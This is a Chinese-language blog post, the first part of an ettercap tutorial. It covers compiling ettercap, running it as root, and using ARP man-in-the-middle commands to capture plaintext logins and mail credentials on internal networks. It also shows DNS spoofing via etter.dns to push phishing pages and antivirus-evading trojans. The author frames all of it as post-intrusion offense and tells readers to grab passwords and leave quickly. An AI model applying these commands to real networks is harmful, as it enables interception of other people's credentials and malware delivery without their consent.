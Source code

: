 [TOC]

# [宝刀未老之 ettercap 基础使用 一](https://klionsec.github.io/2017/10/25/ettercap/)

0x01 关于ettercap

```
ettercap 确实已经非常老了,也确实是那个时代的经典,而且差不多三四年这个项目也都没再更新过了对于一些防护并不是特别好的内网,依然非常实用,千万不要觉得工具老就没有它的应用场地,那样你就真的错了,如果真是这样,就不会有这么多的二次深度开发了大家可能也发现了,像这类的工具我基本都是在模拟真实的生产机器环境上编译安装的具体原因大家想必都很清楚,像这类基于二层的arp嗅探是没法直接在远程做的,毕竟不是直接处在目标的vpn内网中socks代理再牛逼,它也只是个基于端口的四层代理,并不是vpn,所以,是没法直接在本地嗅远程的arp的,至于GRE隧道,咱们抽空再另说话不多讲,直奔今天的主题,ettercap基础使用,注意,此次仅仅是基础使用
```



0x02 开启本地的路由转发

```
# echo 1 > /proc/sys/net/ipv4/ip_forward# cat /proc/sys/net/ipv4/ip_forward
```



0x03 基础演示环境

```
CentOS release 6.9 (Final)  x86-64 ip: 192.168.3.4  接口名称: eth2  ettercap所在机器win2008r2 			   ip: 192.168.3.23 win7cn				   ip: 192.168.3.8
```





0x04 暂以centos 6.8 x86_64为例,编译安装 ettercap 0.8.2

```
# yum groupinstall "Development tools" -y# yum install cmake ncurses ncurses-devel openssl openssl-devel gcc-c++ flex bison gtk2 gtk2-devel -y# tar xf ettercap-0.8.2.tar.gz# cd ettercap-0.8.2/bundled_deps/# ls
```



```
# cd check/# tar xf check-0.9.14.tar.gz# cd check-0.9.14# ./configure && make && make install# echo $? && cd ../../
# cd curl/# tar xf curl-7.41.0.tar.gz# cd curl-7.41.0# ./configure && make && make install# echo $? && cd ../../
# cd libnet/# tar xf libnet-1.1.6.tar.gz# cd libnet-1.1.6# ./configure && make && make install# echo $? && cd ../../
# cd luajit/# tar xf LuaJIT-2.0.3.tar.gz# cd LuaJIT-2.0.3# make && make install# echo $? && cd ../../
# tar xf libpcap-1.5.3.tar.gz# cd libpcap-1.5.3# ./configure && make && make install# echo $? && cd ../../
# cat INSTALL# mkdir build# cd build/# cmake ../# make && make install# echo $? && cd
```

0x05 ettercap安装后的默认配置文件位置如下,修改配置文件,让其以root权限身份运行,一般嗅探都是在提权成功以后的动作,这样能嗅到的东西会更多一些

```
# cd /etc/ettercap/# vi /etc/ettercap/etter.conf ec_uid = 0                 ec_gid = 0
```



0x06 ettercap默认规则 [filter] 目录

```
# ll /usr/local/share/ettercap/
```



![img](../../../../../ImageAssets/ettercap-filter.png)

0x07 装完以后先简单测试下ettercap是否真正已经可用,尝试嗅下3.8到3.23之间的明文数据

```
# ettercap -Tqi eth2 -M arp:remote /192.168.3.8/ /192.168.3.23/
```



![img](../../../../../ImageAssets/ettercap-rest.png)

0x08 ettercap 选项功能简要说明

```
-M 进行中间人攻击,可自行指定用什么类型的中间人,如,arp,dhcp,icmp...-o 不嗅探数据,单单只进行中间人欺骗-T 建议使用文本模式,一般实战中基本是不会有图形界面给你的-q 安静模式,减少输出-D 把ettercap作为一个系统服务来运行,意思就是让它在后台跑,比较方便-w 把监听的数据写到指定的pcap文件中 -L 将所有流量写到指定的日志文件中-l 被动记录-i 指定要用于嗅探的网卡接口-F 导入自定义数据包过滤规则文件-P 导入插件,增强中间人攻击-p 不启用网卡混杂模式,只嗅当前机器的各类明文数据
```



0x09 关于ettercap的其它更多详情,请自行参考工具自身帮助

```
# man ettercap# ettercap -P list  查看ettercap内置的所有插件
```



![img](../../../../../ImageAssets/ettercap-local-plugins.png)

0x10 只嗅探本机指定端口上的明文数据,如,各类web管理登陆密码[80,8080],如果是当前机器是个邮件服务器,无疑是极好的,起码不用再自己苦逼的到处搜集密码了,直接守住这儿慢慢抓密码就好了,在某些内网中通过这种方式来搜集密码,还是非常可行的

```
# ettercap -i eth2 -T -q -p -l local //25,80,110,143,8080 # etterlog local.eci
```



![img](../../../../../ImageAssets/ettercap-local-sniff.png)
![img](../../../../../ImageAssets/ettercap-local-sniff_res.png)

0x011 只嗅探指定机器之间的明文通信数据

嗅探这个ip段范围和网关之间的通信数据,其实说白点就是想嗅探目标机器在一些公网站点上登陆的明文账号密码

```
# ettercap -T -q -i eth2  -L webadmin -M arp:remote /192.168.3.1/ /192.168.3.2-25/    # etterlog webadmin.eci
```



![img](../../../../../ImageAssets/arp_sniffer_common.png)

嗅探3.220-251和3.3这台机器之间的所有明文通信数据,主要想快速拿到内网服务器的账号密码,所以,你实际挑内网机器的时候,最好有针对性,一旦拿到密码立马就跑路,这工具动静儿太大

```
# ettercap -Tq -i eth2  -L mail -M arp:remote /192.168.3.3/ /192.168.3.220-251/# etterlog mail.eci
```



在目标内网中利用dns欺骗来针对性钓鱼挂马,马要免杀,页面也逼真,否则很容易被发现

```
# vi /etc/ettercap/etter.dns  # microsoft sucks ;)找到这行  # redirect it to www.linux.org    demlution.com       A   192.168.3.23    www.demlution.com   A   192.168.3.23# ettercap -Tq -i eth2 -P dns_spoof  -M arp /192.168.3.1/ /192.168.3.3-100/
```



![img](../../../../../ImageAssets/ettercap-dns2_res.png)
![img](../../../../../ImageAssets/ettercap-dns.png)
![img](../../../../../ImageAssets/ettercap-dns2.png)

0x12 当然,ettercap绝非远远就这么点儿功用,来日方长,关于定制规则脚本以及其它的各类高级应用,考虑篇幅,我们后续再慢慢说

0x13 提前先来了解几个 ettercap 的简单规则脚本语法

```
search(where,what) 从字符串where中查找what，若找到则返回trueregex(where,regex) 从字符串where中匹配正则表达式regex，若找到则返回truereplace(what,with) 把字符串what替换成字符串withlog(what,where)    把字符串what记录到where文件中msg(message) 	   在屏幕上显示出字符串messageexit() 		   退出
```



待续ing…

 [#ETTERCAP](https://klionsec.github.io/tags/ettercap/)